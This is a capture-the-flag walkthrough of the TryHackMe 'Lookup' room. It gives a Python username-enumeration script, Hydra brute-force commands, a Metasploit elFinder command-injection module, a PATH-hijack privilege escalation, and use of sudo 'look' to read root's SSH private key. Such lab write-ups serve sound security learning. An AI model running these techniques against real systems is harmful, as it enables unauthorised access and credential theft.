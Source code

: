# Lookup — TryHackMe Walkthrough

## Enumeration

As part of my daily routine, I began with enumeration. First, I used **RustScan** to scan the ports and identified two open ports. Although **Nmap** provided additional results, those ports were closed. Therefore, our focus is on ports **22** and **80**.

I searched for CVEs related to the SSH and HTTP versions but didn’t find anything noteworthy. Moving forward, I attempted various enumeration tools such as subdomain enumeration and **Nikto** scans, but the results were inconclusive.

After adding `lookup.thm` to my `/etc/hosts` file, I accessed the webpage, which presented a login page.

## Login Page Enumeration

I attempted some default credentials and basic SQL injection techniques, but they were unsuccessful. Each attempt either resulted in errors or a redirection.

I decided to explore other directories beyond the login page to uncover additional entry points or hidden resources.

## Directory Exploration

The results from exploring directories weren’t very promising. However, during my observation, I noticed that login attempts yielded two different responses, which hinted that the usernames were being validated. From this, I confirmed that **admin** is a valid username.

## Brute-Forcing Usernames

I attempted to brute-force the password for **admin** using **Hydra**, but it turned out to be a waste of time. To optimize the process, I created a script with the help of GPT to identify other valid usernames:

```python
import requests

# Define the target URL
url = "http://lookup.thm/login.php"

# Define the file path containing usernames
username_file = "/home/mystic/Downloads/test/htb/names.txt"  # Replace with your wordlist path

# Fixed password for testing
password = "password"

# Custom headers (optional)
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36"
}

# Function to send POST requests and process responses
def check_username(username):
    # Prepare the POST data
    data = {
        "username": username,
        "password": password
    }

    try:
        # Send the POST request
        response = requests.post(url, data=data, headers=headers)

        # Check the response content
        if "Wrong password" in response.text:
            print(f"Username found: {username}")
        elif "wrong username" in response.text:
            pass  # Silent continuation for wrong usernames
        else:
            print(f"[?] Unexpected response for username: {username}")
    except requests.RequestException as e:
        print(f"[!] Request failed for username {username}: {e}")

# Main function
if __name__ == "__main__":
    try:
        # Open the username file and read each line
        with open(username_file, "r") as file:
            for line in file:
                username = line.strip()
                if not username:
                    continue  # Skip empty lines

                check_username(username)
    except FileNotFoundError:
        print(f"[!] Wordlist file '{username_file}' not found!")
    except requests.RequestException as e:
        print(f"[!] An HTTP request error occurred: {e}")
```

### Outcome
The script successfully returned a valid username: **jose**.

## Password Brute-Forcing

Now, the journey continues as we focus on finding the password for **jose**:

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:INcorrect" -V
```

Logged in as **jose**, I discovered a new subdomain. Make sure to add it to the `/etc/hosts` file to proceed.

## Subdomain Exploration

I searched through the files for any useful leads but found nothing significant. Finally, I focused on the file manager’s version to investigate potential exploits.

A quick search on **Searchsploit** revealed four exploits, with one appearing favorable for this scenario:

```bash
msfconsole
exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
```

### Shell Access
Easy peasy! We successfully obtained a shell as **www-data**.

## Privilege Escalation

Inside the system, we have two additional users: **think** and **root**.

```bash
find / -perm -u=s -type f 2>/dev/null
```

During my search for privilege escalation opportunities, I came across an unexpected file located at `/usr/sbin/pwm`, which seemed interesting.

I was stuck for a while, so I called on my companion, GPT, for help. It provided me with a valuable lead.

```bash
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

Now it’s time to retrieve the correct password from the list of possible passwords. I will save the valid password into a file:

```bash
hydra -l think -P /home/mystic/Downloads/test/htb/password.txt -t 4 ssh://10.10.62.113
```

### User: Think
It looks like the room **Think** resembles one you might have done earlier, or perhaps even one I’ve worked on before as well. If you’re referring to a familiar path or challenge, it might be helpful to go back through your earlier steps or experiences to refresh your memory.

**Think** can use the `look` binary as sudo, which is useful for reading files. **GTFObin** might be helpful for this.

```bash
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"
```

Save the `id_rsa` file and set the correct permissions with the command:

```bash
chmod 600 savedfilename
ssh -i savedfilename root@machineIP
```

## Root Access
We are **root**! 🎉

Both flags have been retrieved successfully.
